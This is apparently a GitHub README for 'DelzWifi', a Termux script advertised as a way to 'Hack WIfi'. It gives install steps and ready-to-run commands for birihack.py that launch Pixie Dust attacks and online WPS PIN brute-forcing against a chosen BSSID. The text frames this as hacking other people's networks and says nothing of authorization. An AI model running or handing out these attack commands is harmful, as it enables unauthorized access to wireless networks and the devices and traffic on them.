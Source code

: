 ## DelzWifi
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$$ apt update && apt upgrade
$$ pkg install -y root-repo
$$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$$ git clone https://github.com/ghodelzcalm/DelzWifi
$$ cd DelzWifi
$$ chmod +x birihack.py
$$ sudo python birihack.py --help
```

#### Example : 
cd DelzWifi

chmod +x birihack.py

sudo python birihack.py -i wlan0 -K

## Express

sudo python DelzWifi/birihack.py -i wlan0 -K

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
